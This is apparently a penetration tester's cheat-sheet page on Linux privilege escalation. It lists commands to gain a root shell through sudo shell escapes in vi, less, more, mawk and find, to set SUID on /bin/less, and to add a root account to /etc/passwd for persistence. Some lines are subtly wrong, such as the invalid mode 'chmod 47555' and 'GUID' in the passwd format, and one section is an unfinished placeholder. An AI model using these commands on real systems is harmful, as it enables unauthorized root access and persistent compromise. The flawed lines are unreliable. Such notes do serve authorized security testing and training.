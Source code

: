 # Privilege Escalation

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

### Privilege Escalation

[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

list user's sudo permissions: `sudo -l`

execute any command while in `less`: `!<cmd>`

Privilege Escalation to Root by setting suid on `/bin/less`: `chmod 47555 /bin/less`

Privilege Escalation to Root with `find`: `sudo find /etc -exec sh -i \;`

wildcard injection: \[NEED MORE HERE\]

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

If your user can `sudo` any of these text editors:

```bash
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#

1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
Note: for this method to work, the attacker has to read a file that is longer than one page
```

### Add Account/Password to /etc/passwd

Generate password with `openssl passwd -1 -salt [Username] [PASSWD]` , then add to `/etc/passwd` file which is in the format: `Username:generated password:UID:GUID:root:/root:/bin/bash` \(assumes you have write privilege to this file!\). Can be used for persistence.



